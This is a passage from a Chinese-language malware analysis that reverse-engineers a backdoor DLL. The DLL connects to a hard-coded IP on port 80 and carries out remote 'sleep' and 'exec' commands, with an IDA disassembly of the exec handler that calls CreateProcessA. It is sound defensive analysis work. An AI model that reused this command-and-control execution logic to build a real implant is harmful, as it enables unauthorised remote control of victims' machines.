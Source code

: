 `connect`连接的是 `127.26.152.13`这个IP地址，并且端口是 50h，即80端口。emm80端口，猜测可能走http协议进行通信，找一下通信的流量

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-b82ef6e390cd33b58ab9e37d23e59c9f5c5a7d48.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-b82ef6e390cd33b58ab9e37d23e59c9f5c5a7d48.png)

这里 buf数组存入了 hello 字符串……好像cobalt strike里的娱乐弹窗……

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-707353f3d8ccf99d789d02f8ee7bc1e99fdfeb61.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-707353f3d8ccf99d789d02f8ee7bc1e99fdfeb61.png)

看下`recv`接收的流量。在 `10001124`处，lea 指令访问 buf，指针指向buf这块缓冲区，接着 `push`了3个参数，调用 `recv`指令，但这里好像也看不出来什么

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-48d3107a2779a762cdf225974bc0e6fe4bc3cbd8.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-48d3107a2779a762cdf225974bc0e6fe4bc3cbd8.png)

接着往下看。`1000114B`cmp 前面是不是 `sleep`字符串，它会在 `10001150`处检查是否返回值是否为0，如果是0，调用 `sleep`函数

也就是说如果远程shell终端发送的命令是sleep，则执行sleep函数

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-bb28962f1b5e7a1dbf606d74d6d2060b0f7bb121.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-bb28962f1b5e7a1dbf606d74d6d2060b0f7bb121.png)

到这里并没有结束，buf 缓冲区还在被使用。首先检查指令是不是 `exec`，如果是，`strncpy`函数返回0，顺序执行，直到 `100011AF`处创建进程。看到`CreateProcessA`有很多参数，不过最重要的还是 `lpCOmmandLine`，它来自`1000119B`处的 `CommandLine`,双击追踪这个参数发现它在栈空间中

```assembly
.text:10001161 loc_10001161:                           ; CODE XREF: DllMain(x,x,x)+142↑j
.text:10001161                 lea     edx, [esp+1208h+buf]
.text:10001168                 push    4               ; MaxCount
.text:1000116A                 push    edx             ; Str2
.text:1000116B                 push    offset aExec    ; "exec"
.text:10001170                 call    ebp ; strncmp
.text:10001172                 add     esp, 0Ch
.text:10001175                 test    eax, eax
.text:10001177                 jnz     short loc_100011B6
.text:10001179                 mov     ecx, 11h
.text:1000117E                 lea     edi, [esp+1208h+StartupInfo]
.text:10001182                 rep stosd
.text:10001184                 lea     eax, [esp+1208h+ProcessInformation]
.text:10001188                 lea     ecx, [esp+1208h+StartupInfo]
.text:1000118C                 push    eax             ; lpProcessInformation
.text:1000118D                 push    ecx             ; lpStartupInfo
.text:1000118E                 push    0               ; lpCurrentDirectory
.text:10001190                 push    0               ; lpEnvironment
.text:10001192                 push    8000000h        ; dwCreationFlags
.text:10001197                 push    1               ; bInheritHandles
.text:10001199                 push    0               ; lpThreadAttributes
.text:1000119B                 lea     edx, [esp+1224h+CommandLine]
.text:100011A2                 push    0               ; lpProcessAttributes
.text:100011A4                 push    edx             ; lpCommandLine
.text:100011A5                 push    0               ; lpApplicationName
.text:100011A7                 mov     [esp+1230h+StartupInfo.cb], 44h ; 'D'
.text:100011AF                 call    ebx ; CreateProcessA
.text:100011B1                 jmp     loc_100010E9
```
